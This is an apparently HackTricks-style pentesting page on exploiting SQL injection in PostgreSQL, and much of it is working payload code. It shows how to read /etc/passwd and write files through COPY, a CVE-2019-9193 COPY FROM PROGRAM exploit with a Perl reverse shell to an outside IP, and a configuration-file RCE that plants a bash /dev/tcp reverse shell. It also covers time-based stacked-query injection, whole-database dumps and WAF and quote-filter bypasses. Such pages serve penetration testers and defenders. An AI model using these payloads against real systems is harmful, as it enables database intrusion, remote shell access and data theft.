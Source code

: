 # PostgreSQL injection

**This page aims to explain different tricks that could help you to exploit a SQLinjection found in a postgresql database and to compliment the tricks you can find on** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)\*\*\*\*

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**`dblink`** is a **PostgreSQL module** that offers several interesting options from the attacker point of view. It can be used to **connect to other PostgreSQL instances** of perform **TCP connections**.  
**These functionalities** along with the **`COPY FROM`** functionality can be used to **escalate privileges**, perform **port scanning** or grab **NTLM challenge responses**.  
[**You can read here how to perform these attacked.**](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)\*\*\*\*

### **Exfiltration example using dblink and large objects**

You can [**read this example**](dblink-lo_import-data-exfiltration.md) ****to see a CTF example of **how to load data inside large objects and then exfiltrate the content of large objects inside the username** of the function `dblink_connect`.

## PL/pgSQL password bruteforce

PL/pgSQL, as a **fully featured programming language**, allows much more procedural control than SQL, including the **ability to use loops and other control structures**. SQL statements and triggers can call functions created in the PL/pgSQL language.  
**You can abuse this language in order to ask PostgreSQL to brute-force the users credentials.** [**Read this to learn how.**](pl-pgsql-password-bruteforce.md)\*\*\*\*

## File-system actions

### Read directories and files

From this [commit ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a)members of the `DEFAULT_ROLE_READ_SERVER_FILES` group and super users can use these methods on any path \(check out `convert_and_check_filename` in `genfile.c`\).:

```sql
select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd' , 0 , 1000000);
```

### Simple File Writing

```bash
copy (select convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) to '/just/a/path.exec';
```

Remember that COPY cannot handle newline chars, therefore even if you are using a base64 payload y**ou need to send a one-liner**.  
A very important limitation of this technique is that **`copy` cannot be used to write binary files as it modify some binary values.**

### **Binary files upload**

However, there are **other techniques to upload big binary files**.  
[**Read this page to learn how to do it.**](big-binary-files-upload-postgresql.md)\*\*\*\*

## RCE 

### CVE-2019–9193 **RCE from version 9.3 to 11.2**

Since[ version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), new functionality for '[COPY TO/FROM PROGRAM](https://paquier.xyz/postgresql-2/postgres-9-3-feature-highlight-copy-tofrom-program/)' was implemented. This allows the database superuser, and any user in the ‘pg\_execute\_server\_program’ group to run arbitrary operating system commands.

```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

Or use the `multi/postgres/postgres_copy_from_program_cmd_exec` module from **metasploit**.  
More information about this vulnerability [**here**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5).

### RCE with PostgreSQL extensions

Once you have **learned** from the previous post **how to upload binary files** you could try obtain **RCE uploading a postgresql extension and loading it**.  
[**Lear how to abuse this functionality reading this post.**](rce-with-postgresql-extensions.md)\*\*\*\*

### PostgreSQL configuration file RCE

The **configuration file** of postgresql is **writable** by the **postgres user** which is the one running the database, so as **superuser** you can write files in the filesystem, and therefore you can **overwrite this file.**

![](../../../.gitbook/assets/image%20%28232%29.png)

The configuration file have some interesting attributes that can lead to RCE:

* `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Path to the private key of the database
* `ssl_passphrase_command = ''` If the private file is protected by password \(encrypted\) postgresql will **execute the command indicated in this attribute**.
* `ssl_passphrase_command_supports_reload = off` **If** this attribute is **on** the **command** executed if the key is protected by password **will be executed** when `pg_reload_conf()` is **executed**.

Then, an attacker will need to:

1. **Dump private key** from the server
2. **Encrypt** downloaded private key:
   1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Overwrite** 
4. **Dump** the current postgresql **configuration**
5. **Overwrite** the **configuration** with the mentioned attributes configuration:
   1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
   2. `ssl_passphrase_command_supports_reload = on`
6. Execute `pg_reload_conf()`

While testing this I noticed that this will only work if the **private key file has privileges 640**, it's **owned by root** and by the **group ssl-cert or postgres** \(so the postgres user can read it\), and is placed in _/var/lib/postgresql/12/main_.

**More** [**information about this technique here**](https://pulsesecurity.co.nz/articles/postgres-sqli)**.**

## WAF bypass

### PostgreSQL String functions

Manipulating strings could help you to **bypass WAFs or other restrictions**.  
[**In this page** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**you can find some useful Strings functions.**

### Stacked Queries

Remember that postgresql support stacked queries, but several application will throw an error if 2 responses are returned when expecting just 1. But, you can still abuse the stacked queries via Time injection:

```text
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```

### XML tricks

#### query\_to\_xml

This function will return all the data in XML format in just one file. It's ideal if you want to dump a lot of data in just 1 row:

```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```

#### database\_to\_xml

This function will dump the whole database in XML format in just 1 row \(be careful if the database is very big as you may DoS it or even your own client\):

```sql
SELECT database_to_xml(true,true,'');
```

### Forbidden quotes

If cannot use quotes for your payload you could bypass this with `CHR` for basic clauses \(_character concatenation only works for basic queries such as SELECT, INSERT, DELETE, etc. It does not work for all SQL statements_\):

```text
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```

Or with `$`. This queries return the same results:

```text
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```

